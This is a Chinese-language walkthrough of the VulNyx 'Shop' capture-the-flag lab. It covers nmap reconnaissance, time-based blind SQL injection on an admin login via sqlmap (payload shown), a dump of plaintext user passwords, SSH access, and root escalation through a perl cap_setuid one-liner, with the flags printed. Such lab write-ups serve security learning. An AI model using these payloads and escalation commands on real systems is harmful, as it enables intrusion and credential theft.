

# shop

## 前期踩点

扫描存活主机，`40`是靶机

```java
nmap -sP 192.168.56.0/24                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:18 EST
Nmap scan report for 192.168.56.1
Host is up (0.00039s latency).
MAC Address: 0A:00:27:00:00:09 (Unknown)
Nmap scan report for 192.168.56.2
Host is up (0.00032s latency).
MAC Address: 08:00:27:59:EA:E6 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.40
Host is up (0.00041s latency).
MAC Address: 08:00:27:4A:D6:DE (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.4
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.05 seconds
```

扫描端口，指定`10000`速率

```java
nmap -sT -min-rate 10000 -p- 192.168.56.40  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:18 EST
Nmap scan report for 192.168.56.40
Host is up (0.00060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:4A:D6:DE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
```

扫描主机信息以及服务信息

```
nmap -A -T3 -O -p 22,80 192.168.56.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:20 EST
Nmap scan report for 192.168.56.40
Host is up (0.00066s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 ce:24:21:a9:2a:9e:70:2a:50:ae:d3:d4:31:ab:01:ba (RSA)
|   256 6b:65:3b:41:b3:63:0b:12:ba:d3:69:ac:14:de:39:7f (ECDSA)
|_  256 04:cb:d9:9b:40:cc:28:58:fc:03:e7:4f:f7:6a:e5:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: VulNyx Shop
MAC Address: 08:00:27:4A:D6:DE (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.66 ms 192.168.56.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.66 seconds
```

漏洞扫描，扫出来一些令人感兴趣的文件夹，以及登陆页面

```
nmap -script=vuln -p 22,80 192.168.56.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:21 EST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Stats: 0:00:39 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 192.168.56.40
Host is up (0.00051s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-cookie-flags:
|   /administrator/:
|     PHPSESSID:
|       httponly flag not set
|   /administrator/index.php:
|     PHPSESSID:
|       httponly flag not set
|   /administrator/login.php:
|     PHPSESSID:
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|_  /administrator/login.php: Possible admin folder
MAC Address: 08:00:27:4A:D6:DE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 62.31 seconds
```

访问`HTTP`服务，并查看指纹信息



主页上的连接全是无效的，从`nmap`枚举出来文件入手

## WEB渗透

访问`login.php`


扫描一下目录

```java
dirsearch -u 192.168.56.40 -x 403,404,429 -e php,zip,txt
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, zip, txt | HTTP method: GET | Threads: 25 | Wordlist size: 10439

Output File: /root/Desktop/test/Shop/reports/_192.168.56.40/_25-03-07_07-41-05.txt

Target: http://192.168.56.40/

[07:41:05] Starting: 
[07:41:18] 301 -  322B  - /administrator  ->  http://192.168.56.40/administrator/
[07:41:18] 200 -  337B  - /administrator/
[07:41:18] 200 -  337B  - /administrator/index.php
[07:41:18] 200 -    0B  - /administrator/login.php
[07:41:27] 301 -  312B  - /css  ->  http://192.168.56.40/css/
[07:41:31] 301 -  314B  - /fonts  ->  http://192.168.56.40/fonts/
[07:41:36] 301 -  311B  - /js  ->  http://192.168.56.40/js/
```

```java
gobuster dir -u http://192.168.56.40/administrator -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403,502,429 --no-error -x php,asp,zip,txt
===============================================================
Gobuster v3.6                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.40/administrator
[+] Method:                  GET                                                                               
[+] Threads:                 10                                                                                                                                                                                                
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                                                                                      
[+] Negative Status codes:   404,403,502,429                                                                   
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,zip,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode                                                                
===============================================================
/index.php            (Status: 200) [Size: 589]                                                                
/login.php            (Status: 200) [Size: 0]
/profile.php          (Status: 302) [Size: 402] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
Progress: 1102800 / 1102805 (100.00%)
===============================================================                  
Finished                                                                                                       
===============================================================
```

尝试进行暴力破解，也无果

抓包并复制内容保存到`packet`


使用`sqlmap` 尝试进行SQL注入

```java
sqlmap -r pakcet --batch               
        ___                                                                                                    
       __H__                                                                                                   
 ___ ___[']_____ ___ ___  {1.8.11#stable}         
|_ -| . [,]     | .'| . |                                                                                      
|___|_  [(]_|_|_|__,|  _|                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                   
                                                                                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability a
nd are not responsible for any misuse or damage caused by this program                                                                                                                                                         
                                                                                                                                                                                                                               
[*] starting @ 07:47:40 /2025-03-07/                                                                           
                                                                                                                                                                                                                               
[07:47:40] [CRITICAL] specified HTTP request file 'pakcet' does not exist                             
                                                                                                               
[*] ending @ 07:47:40 /2025-03-07/                                                                             
                                                                                                               
 ✘ ⚡ root@kali  ~/Desktop/test/Shop  vim packet                                                             
 ⚡ root@kali  ~/Desktop/test/Shop  sqlmap -r packet --batch 
        ___                   
       __H__              
 ___ ___[,]_____ ___ ___  {1.8.11#stable}                                                                      
|_ -| . [.]     | .'| . |                                                                                      
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
                                                                                                                                                                                                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability a
nd are not responsible for any misuse or damage caused by this program
                                                       
[*] starting @ 07:47:58 /2025-03-07/         
                                                                                                               
[07:47:58] [INFO] parsing HTTP request from 'packet'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[07:47:59] [INFO] testing connection to the target URL
[07:47:59] [INFO] testing if the target URL content is stable
[07:47:59] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[07:47:59] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[07:47:59] [INFO] testing connection to the target URL                                                                                                                                                                  [0/241]
[07:47:59] [INFO] testing if the target URL content is stable                                                  
[07:47:59] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[07:47:59] [INFO] testing if (custom) POST parameter '#1*' is dynamic                                          
[07:47:59] [INFO] (custom) POST parameter '#1*' appears to be dynamic       
[07:47:59] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable   
[07:47:59] [INFO] testing for SQL injection on (custom) POST parameter '#1*'                                   
[07:47:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                                                                                                                   
[07:47:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[07:47:59] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[07:47:59] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                
[07:47:59] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[07:47:59] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                          
[07:47:59] [INFO] testing 'Generic inline queries'                                                             
[07:47:59] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'                                         
[07:47:59] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'                              
[07:48:00] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'                                                                                                                                       
[07:48:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'                                                                                                                                                 
[07:48:10] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                                                  
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y                                                                                                
[07:48:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                              
[07:48:10] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://192.168.56.40/administrator/profile.php'. Do you want to follow? [Y/n] Y         
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y    
[07:48:10] [INFO] checking if the injection point on (custom) POST parameter '#1*' is a false positive         
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 79 HTTP(s) requests:
---                       
Parameter: #1* ((custom) POST)                                                                                 
    Type: time-based blind                                                                                     
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2729 FROM (SELECT(SLEEP(5)))Itjy) AND 'ETDU'='ETDU&password=1&submit=
---                                                                                                                                                                                                                            
[07:48:25] [INFO] the back-end DBMS is MySQL                                                                                                                                                                                   
[07:48:25] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38                                                                      
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)       
[07:48:30] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.40'
                                                       
[*] ending @ 07:48:30 /2025-03-07/                                                                             
                                                                                  
```

## SQL注入

存在SQL注入，延时注入，直接将数据Dump下来

获取当前数据库

```java
sqlmap -r packet --batch --current-db 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:53:58 /2025-03-07/

[07:53:58] [INFO] parsing HTTP request from 'packet'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[07:53:58] [INFO] resuming back-end DBMS 'mysql' 
[07:53:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2729 FROM (SELECT(SLEEP(5)))Itjy) AND 'ETDU'='ETDU&password=1&submit=
---
[07:53:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:53:58] [INFO] fetching current database
[07:53:58] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[07:54:04] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[07:54:14] [INFO] adjusting time delay to 1 second due to good response times
Webapp
current database: 'Webapp'
[07:54:31] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.40'

[*] ending @ 07:54:31 /2025-03-07/
```

获取当前数据库`Webapp` 的数据表

```java
 sqlmap -r packet --batch -D Webapp --tables                              
        ___                                            
       __H__                                                                                                   
 ___ ___[)]_____ ___ ___  {1.8.11#stable}              
|_ -| . [)]     | .'| . |                                                                                      
|___|_  [)]_|_|_|__,|  _|                
      |_|V...       |_|   https://sqlmap.org
                                                                                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and arnd are not responsible for any misuse or damage caused by this program                                         
                                                                                                                                                                                                                               
[*] starting @ 07:57:03 /2025-03-07/                                                                           
                                                       
[07:57:03] [INFO] parsing HTTP request from 'packet'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y                         
[07:57:03] [INFO] resuming back-end DBMS 'mysql'                                                               
[07:57:03] [INFO] testing connection to the target URL                                                         
sqlmap resumed the following injection point(s) from stored session:                                           
---                                                                                                            
Parameter: #1* ((custom) POST)                                                                                 
    Type: time-based blind                                                                                     
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)                                                  
    Payload: username=' AND (SELECT 2729 FROM (SELECT(SLEEP(5)))Itjy) AND 'ETDU'='ETDU&password=1&submit=      
---                                                                                                            
[07:57:03] [INFO] the back-end DBMS is MySQL                                                                   
web server operating system: Linux Debian 10 (buster)  
web application technology: Apache 2.4.38   
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)                                                                  
[07:57:03] [INFO] fetching tables for database: 'Webapp'                                                       
[07:57:03] [INFO] fetching number of tables for database 'Webapp'                                              
[07:57:03] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                 
[07:57:03] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions                                                                            
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y                                                                                                                         
1                                                                                                              
[07:57:08] [INFO] retrieved:                                                                                                                                                                                                   
[07:57:18] [INFO] adjusting time delay to 1 second due to good response times                                  
Users                                                                                                          
Database: Webapp                                                                                               
[1 table]                                              
+-------+                                              
| Users |                                              
+-------+                                              
                                                                                                               
[07:57:32] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.40'     
                                                       
[*] ending @ 07:57:32 /2025-03-07/                                                                
```

获取`Users`数据表字段名

```java
sqlmap -r packet --batch -D Webapp -T Users --columns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:59:08 /2025-03-07/

[07:59:08] [INFO] parsing HTTP request from 'packet'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[07:59:08] [INFO] resuming back-end DBMS 'mysql' 
[07:59:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2729 FROM (SELECT(SLEEP(5)))Itjy) AND 'ETDU'='ETDU&password=1&submit=
---
[07:59:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:59:08] [INFO] fetching columns for table 'Users' in database 'Webapp'
[07:59:08] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                
[07:59:08] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[07:59:23] [INFO] adjusting time delay to 1 second due to good response times
3
[07:59:23] [INFO] retrieved: id
[07:59:29] [INFO] retrieved: int(6)
[07:59:55] [INFO] retrieved: username
[08:00:17] [INFO] retrieved: varchar(32)
[08:00:52] [INFO] retrieved: password
[08:01:19] [INFO] retrieved: varchar(32)
Database: Webapp
Table: Users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(6)      |
| password | varchar(32) |
| username | varchar(32) |
+----------+-------------+

[08:01:54] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.40'

[*] ending @ 08:01:54 /2025-03-07/
```

我们感兴趣的只有`username`和`password` ，将其Dump下来

```java
sqlmap -r packet --batch -D Webapp -T Users --dump   
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.11#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:03:47 /2025-03-07/

[08:03:47] [INFO] parsing HTTP request from 'packet'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[08:03:47] [INFO] resuming back-end DBMS 'mysql' 
[08:03:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2729 FROM (SELECT(SLEEP(5)))Itjy) AND 'ETDU'='ETDU&password=1&submit=
---
[08:03:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[08:03:47] [INFO] fetching columns for table 'Users' in database 'Webapp'
[08:03:47] [INFO] resumed: 3
[08:03:47] [INFO] resumed: id
[08:03:47] [INFO] resumed: username
[08:03:47] [INFO] resumed: password
[08:03:47] [INFO] fetching entries for table 'Users' in database 'Webapp'
[08:03:47] [INFO] fetching number of entries for table 'Users' in database 'Webapp'
[08:03:47] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:03:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[08:03:53] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                       
[08:04:03] [INFO] adjusting time delay to 1 second due to good response times
1
[08:04:03] [INFO] retrieved: peter123!
[08:04:30] [INFO] retrieved: peter
[08:04:47] [INFO] retrieved: 2
[08:04:51] [INFO] retrieved: mikeblabla
[08:05:16] [INFO] retrieved: mike
[08:05:27] [INFO] retrieved: 3
[08:05:30] [INFO] retrieved: b4rtp0w4
[08:06:04] [INFO] retrieved: bart
[08:06:15] [INFO] retrieved: 4
[08:06:19] [INFO] retrieved: liam@nd3rs0n
[08:07:03] [INFO] retrieved: liam
Database: Webapp
Table: Users
[4 entries]
+----+--------------+----------+
| id | password     | username |
+----+--------------+----------+
| 1  | peter123!    | peter    |
| 2  | mikeblabla   | mike     |
| 3  | b4rtp0w4     | bart     |
| 4  | liam@nd3rs0n | liam     |
+----+--------------+----------+

[08:07:15] [INFO] table 'Webapp.Users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.40/dump/Webapp/Users.csv'
[08:07:15] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.40'

[*] ending @ 08:07:15 /2025-03-07/
```

得到四对账户密码，进行后台登录，都可以进去，但是没有任何功能


可以将得到用户尝试进行SSH登录

最后，bart用户可以登陆进去


## 提权

当前目录下存在`user.txt` ，就是`user`的旗帜

```java
bart@shop:~$ cat user.txt 
598a05f84190e327bc4796335d948144
```

信息收集一波

```java
bart@shop:~$ id
uid=1000(bart) gid=1000(bart) grupos=1000(bart)
bart@shop:~$ uname -a
Linux shop 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
bart@shop:~$ ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:4a:d6:de brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.40/24 brd 192.168.56.255 scope global dynamic enp0s3
       valid_lft 568sec preferred_lft 568sec
    inet6 fe80::a00:27ff:fe4a:d6de/64 scope link 
       valid_lft forever preferred_lft forever
```

查看存在`suid`的程序

```java
bart@shop:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

查看权限，提示未找到，那么就不能使用`sudo`提权了

```java
bart@shop:~/alternatives$ sudo -l
-bash: sudo: orden no encontrada
```

上传Linpea进行信息收集，https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```java
cd /tmp
wget <kali_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

收集到`perl`拥有奇怪的权限

```java
╚ Parent process capabilities                                                                                  
CapInh:  0x0000000000000000=                                                                                                                                                                                                   
CapPrm:  0x0000000000000000=                                                                                   
CapEff:  0x0000000000000000=                                                                                   
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_ra
w,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_wr
ite,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read                                                                                                    
CapAmb:  0x0000000000000000=                                                                                                                                                                                                   
                                                                                                                                                                                                                               
                                                                                                               
Files with capabilities (limited to 50):                                                                                                                                                                                       
/usr/bin/perl5.28.1 = cap_setuid+ep                                                                                                                                                                                            
/usr/bin/perl = cap_setuid+ep     
```


`cap_setuid+ep` 是 Linux **capabilities**（能力）的一个权限，具体含义如下：

1. **`cap_setuid`**：允许进程更改其自身的 **UID（User ID）**，相当于 `setuid()` 系统调用的权限。这意味着即使进程不是 root 用户运行，它仍然可以更改其 UID。
2. **`+ep`**：
    - **`e`（Effective）**：进程可以实际使用 `cap_setuid`。
    - **`p`（Permitted）**：进程拥有该能力。

可以更改其`UID` ，我们尝试将其改为`root` ，在https://gtfobins.github.io/gtfobins/perl/中可以找到利用方法


进行提权，获得root权限

```java
bart@shop:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1000(bart) grupos=1000(bart)
```


读取`root.txt`

```java
# cat /root/root.txt
1c4cddb6c20e0e756163b2a9714a1260
```